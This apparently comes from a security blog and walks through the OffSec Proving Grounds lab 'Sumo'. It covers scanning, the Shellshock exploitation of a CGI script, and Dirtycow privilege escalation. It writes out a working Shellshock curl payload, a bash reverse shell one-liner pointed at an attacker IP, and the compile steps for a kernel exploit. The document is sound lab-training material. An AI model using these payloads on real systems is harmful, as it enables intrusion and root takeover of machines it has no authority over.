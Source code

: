 ```yaml
---
layout: post
title: Sumo
date: '2024-04-29'
description: "Sumo is an easy lab on offsec proving grounds labs"
categories: [offsec]
---
```


## MACHINE INFO
> **[Sumo](https://portal.offsec.com/labs/play)** is an easy linux machine which leverages a shellshock vulnerability to gain a shell to the target. To escalate privileges we use a kernel exploit called dirtycow. 

## WALKTHROUGH
Perform an Nmap scan on the target to identify open ports and services running on them.
```shell
─$ sudo nmap -sCV -A 192.168.164.87 -p- --min-rate=10000ms
[sudo] password for p0s3id0n: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 20:18 BST
Warning: 192.168.164.87 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.164.87
Host is up (0.38s latency).
Not shown: 44378 closed tcp ports (reset), 21155 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/28%OT=22%CT=1%CU=30560%PV=Y%DS=4%DC=T%G=Y%TM=662E
OS:A168%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%TS=A)SEQ(SP=105
OS:%GCD=1%ISR=108%TI=Z%TS=9)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%TS=7)SEQ(SP=105%G
OS:CD=1%ISR=10A%TI=Z%TS=8)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%II=I%TS=8)OPS(O1=M5
OS:51ST11NW5%O2=M551ST11NW5%O3=M551NNT11NW5%O4=M551ST11NW5%O5=M551ST11NW5%O
OS:6=M551ST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%D
OS:F=Y%T=40%W=3908%O=M551NNSNW5%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%
OS:Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=EEDC%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   490.78 ms 192.168.45.1
2   476.76 ms 192.168.45.254
3   490.71 ms 192.168.251.1
4   490.92 ms 192.168.164.87

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.68 seconds
```

From the scan, we identified ssh running on port 22 and http running on port 80.

We proceeded with enumeration on port 80 and got redirected to a website, which didn't have a lot of information.
![img-description](1.png)

We proceeded to scan the website for hidden directories using gobuster.
```shell
$ gobuster dir -u http://192.168.164.87/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 177]
/index                (Status: 200) [Size: 177]
/server-status        (Status: 403) [Size: 295]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

From the output, the only interesting directory was the /cgi-bin/ directory but it has a 403 status code meaning we are forbidden from visiting the directory.

We scanned the /cgi-bin/ directory to find if there are any more hidden sub-directories on it.
```shell
$ gobuster dir -u http://192.168.164.87/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.164.87/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/test                 (Status: 200) [Size: 14]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The /test/ directory did not have any more information. At this point it felt like we were going down a rabbit hole.
![img-description](2.png)
I used nikto to scan the website for vulnerabilites.
The output of the nikto scan pointed us towards a shellshock vulnerability.
![img-description](3.png)
> Shellshock vulnerability is bash shell vulnerability that allows execution of arbitrary commands through environmental variable.

Using the information at (https://github.com/opsxcq/exploit-CVE-2014-6271) relevant to the shellshock vulnerability identified by nikto. 

We tested how to exploit the vulnerability using 
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" http://192.168.164.87/cgi-bin/test
```
![img-description](4.png)
Let's breakdown the command:
> `curl`: This is a command-line tool used to transfer data to or from a server. It's commonly used to make HTTP requests.
- **`() { :; };`**: This is the Shellshock payload. It defines a function without a name (`(){}`), followed by a colon `:`, which is a no-op command in Bash. This payload exploits the vulnerability in Bash (CVE-2014-6271) by executing arbitrary commands after the function definition.
- **`echo; echo;`**: These commands are used to insert empty lines in the HTTP request. They may be included to ensure that the injected payload is separated from other headers or content in the request.
- **`/bin/bash -c 'whoami'`**: This is the command that the attacker wants to execute on the target server. In this case, it's running the `whoami` command to determine the username of the user executing the CGI script.
- **`http://192.168.164.87/cgi-bin/test`**: This is the URL of the CGI script on the target server that the attacker is attempting to exploit.

Now that we know the exploit works, why not try editing the exploit to give us a revrese shell to the target?
Using (https://www.revshells.com/) we generated a single bash one-liner reverse shell payload.
Payload:
```shell
/bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1
```
Payload used:
```shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.45.220/4444 0>&1" http://192.168.164.87/cgi-bin/test
```
Before running the command, ensure the netcat listener is set. Once we ran the command, we successfully got a shell as www-data!!
![img-description](5.png)

We wanted to escalate our privliges to root and for that we used linpeas. 
> **Linpeas**  is a script used for privilege escalation on Linux systems during penetration testing or security assessments. You can get it from (https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

We uploaded linpeas to the target through a python http.server and ran it. 
![img-description](6.png)
![img-description](7.png)
From the output of running linpeas, we got the following information:
- The target is running on Ubuntu version 12.04 
- There is a dirtycow exploit that can be used to exploit the kernel and possibly give us root privileges. 

To exploit this, we used : (https://github.com/FireFart/dirtycow/blob/master/dirty.c)
> **Dirtycow** is a security vulnerability in the Linux kernel that allows an unprivileged local user to gain write access to read-only memory mappings.

Once we uploaded the dirtycow exploit on our attack machine, we uploaded it to the target machine using python http.server. 
Once the exploit was uploaded, we compiled it using 
```shell
gcc -pthread dirty.c -o dirty -lcrypt
```
We encountered a compilation error 
![img-description](10.png)
We solved the error using
```shell
`PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH`
```

Then we compiled it again and this time we successfully managed to the exploit.
The application prompts us to set a new password of choice and for this we use `blueberry`
![img-description](9.png)
Once the password is set, the application informs us that we can login as the user 'firefart' using the newly set password 'blueberry'
![img-description](11.png)

Now that we have the username, target ip and password, we used ssh to login as firefart.
After successfully logging in as firefart, I used the following command to overwrite the password.
```shell
mv /tmp/passwd.bak /etc/passwd
```

After, we confirmed that we are root, navigated to the /root directory and got the root flag!!
![img-description](12.png)
